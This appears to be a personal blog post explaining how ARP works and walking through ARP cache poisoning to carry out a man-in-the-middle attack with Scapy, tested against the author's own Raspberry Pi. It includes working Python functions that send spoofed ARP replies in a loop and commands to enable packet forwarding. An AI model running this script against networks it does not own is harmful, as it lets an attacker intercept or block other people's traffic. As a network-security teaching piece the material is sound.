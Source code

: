 ```yaml
---
title: "A Look into Arp Cache Poisoning and Using It to Perform MITM Attack"
date: 2019-07-24
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - ARP cache poisoning
  - Scapy
---
```


# What is ARP?
At the lowest level, a switch connects a bunch of hosts together. If a protocol P on a host S wants to send some information to another host R on the network, S needs to find out the Ethernet address of R before it can transmit the packet. There must be a mapping of the address of R in protocol Ps address space to a 48-bit Ethernet address, to get the Ethernet address of R. The Address Resolution Protocol (ARP) provides this resolution. 

In IPv4 over Ethernet, the sender or receiver protocol address refers to the IP address of the sender or receiver. The hardware address refers to the 48-bit Ethernet address. To resolve a host with an IP address, say for example X.X.X.X, S broadcasts (Target hardware address is FF:FF:FF:FF:FF:FF or all 1s) out an ARP request with the sender protocol address field set to our IP address, say for example Y.Y.Y.Y, asking

```
	Who is X.X.X.X? tell Y.Y.Y.Y
```

All the hosts on the network check to see if the target IP address matches their IP address on receiving the ARP request. The host ‘X.X.X.X,’ on seeing that its IP address matches the one in the ARP request, sends out an ARP reply to ‘Y.Y.Y.Y’ with its Ethernet address. Once S receives the ARP response from R, it adds the Ethernet address of R to a cache table and starts sending out whatever packets protocol P has to send.

The following image gives an example of an ARP request and response. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-arp.png)

## ARP Messages
The ARP packet has the following format.

![ARP Packet Format](../../assets/images/arp-spoofing/main-arp-format.png)

In the above image, we can see that there is a field *Opcode*. This field specifies the nature of 
the ARP messages being sent. In this blog post, we are mainly concerned with the following two types of ARP messages.

1.	ARP Request, and
2.	ARP Reply

# ARP Spoofing
The main issue of ARP lies in the fact that there is no authentication of the ARP reply, i.e., any host can send an ARP reply claiming to be the Target. There is no check done by ARP to verify if the host that has sent the ARP reply is whom it claims to be. 

If host A wants to send data to host B on the same network, it will first resolve the hardware address using host B’s IP address, and then sends the data. If we send an ARP reply claiming to be host B, host A will update its cache with our Ethernet address. All subsequent messages are sent to us. If instead host A wants to send data to a host X, not on the same network, host A will send it to the default gateway which will then forward the message to the appropriate router. To intercept these messages, we need to send an ARP reply claiming to be the default gateway. Once we poison the target’s cache, we can either choose to forward the packets performing a man-in-the-middle attack (MITM) or drop them performing a denial of service attack.

## Performing ARP Cache Poisoning With Scapy
We can poison a target's ARP cache by sending spoofed ARP responses. Before we can send
the spoofed ARP messages, we need the target's MAC address. To get the MAC address, we
can send ARP request packet to the target. This can be done in following manner.

```python
def get_mac(ip):
  # Create an ARP packet with the target as the destination 
  arp = Ether()/ARP(pdst=ip)
	
  # Send the ARP request and get the response
  resp = srp1(arp)

  # Return the target's MAC address
  return (resp[Ether].src)
```

Once we get the target's MAC address, we can now poison its cache by sending a spoofed ARP response. The target might flush it's ARP cache and send out an ARP request to the actual destination. To prevent it from overwriting our spoofed ARP cache entry, we must continously keep sending it spoofed ARP responses. We can achieve this by using the function *poison_arp_cache* given below. The function *poison_arp_cache* must be looped until the attacker wants to stop the attack.

```python
def poison_arp_cache(target_ip, target_mac_addr, spoofed_ip, spoofed_mac_addr=Ether().src):
  # Create the ARP response
  spoofed_resp = Ether()/ARP()

  # Set the destination MAC address
  spoofed_resp[Ether].dst = target_mac_addr
  spoofed_resp[ARP].hwdst = target_mac_addr

  # Set the destination IP address
  spoofed_resp[ARP].pdst = target_ip

  # Set the spoofed MAC address
  spoofed_resp[Ether].src = spoofed_mac_addr
  spoofed_resp[ARP].hwsrc = spoofed_mac_addr

  # Set the spoofed IP address
  spoofed_resp[ARP].psrc = spoofed_ip

  # is-at (response)
  spoofed_resp[ARP].op = 2

  #print(spoofed_resp[0].show())
  sendp(spoofed_resp)
```

On trying the above function with the target as a Raspberry Pi 3B+ on the same network as my 
laptop, I got the following results.

### Before ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-before.png)

### After ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-after.png)

We can see that we have successfully overwritten the target's cache table with my laptop's MAC address. All subsequent messages will now be sent to my laptop. But to prevent a DOS attack, we must forward the packets to the destination. This involves poisoning the destination's ARP cache table too. If the destination is not on the same network, we must poison the default gateway's cache table. To poison the default gateway, we need its IP address and MAC address. We can get them in the following manner. 

```python
def get_default_gateway_details():
  # Send a request to any host outside our network with the TTL set to 0
  p = srp1(Ether()/IP(dst="www.google.com", ttl = 0)/ICMP()/"XXXXXXXXXXX")

  # Return the source's IP address and MAC address
  return p[IP].src, p[Ether].src
```

In the *get_default_gateway_ip* function, since the TTL is set to zero, the first host on the route which is the default gateway, responds with an ICMP error message (TTL Zero During Transit). The function then read the ICMP error message to get the default gateway's IP address, and MAC address.

Using the information we got from the *get_default_gateway_details* function, we can perform the MITM attack. All the above functions can be called from a single function *perform_mitm* which poisons
both the target's and default gateway's ARP cache. 

```python
def perform_mitm(target_ip):
  # Get default gateway's network details
  default_gateway_ip, default_gateway_mac = get_default_gateway_details()

  # Get target's MAC address
  target_mac = get_mac(target_ip)

  # Keep sending spoofed ARP responses
  while True:
    # Poison target's ARP cache table
    poison_arp_cache(target_ip, target_mac, default_gateway_ip)

    # Poison default gateway's ARP cache table
    poison_arp_cache(default_gateway_ip, default_gateway_mac, target_ip)
```

#### Side Note on Enabling Packet Forwarding
To allow packets from the target or the gateway to be forwarded, we must enable packet forwarding so that our system acts as a router. Whenver a packet not destined to our system arrives, the OS automatically forwards it to the appropriate host. 

To enable this on linux, we must do the following.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

On windows, we must carry out the following steps.
```
1. Open Regedit as adminstrator,
2. Navigate to the HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\ Services\Tcpip\Parameters\IPEnableRouter setting,
3. Right click and select Modify,
4. Change 0 to 1 and exit the editor,
5. Type services.msc in the command prompt,
6. Navigate to the Routing and Remote Access service, 
7. Right click and select Properties, 
8. Change to Automatic and click on Start to start the service.
```

### MITM Results
On running the *perform_mitm* function, all communications between the gateway and the target now pass through my laptop. On sending a GET request to **www.resonous.com** from the Raspberry PI, we can see the same request in my laptop.

![ARP Packet Format](../../assets/images/arp-spoofing/curl-resonous.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get-depth.png)

Since the GET request resulted in moved result. We can curl the website over https in the following manner. 

![ARP Packet Format](../../assets/images/arp-spoofing/res-https.png)

The same can be seen in wireshark. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-https-depth.png)

That's it for this post. The complete script is available at my github [page][page]


[page]: https://github.com/venkat-abhi/arp-cache-poisoner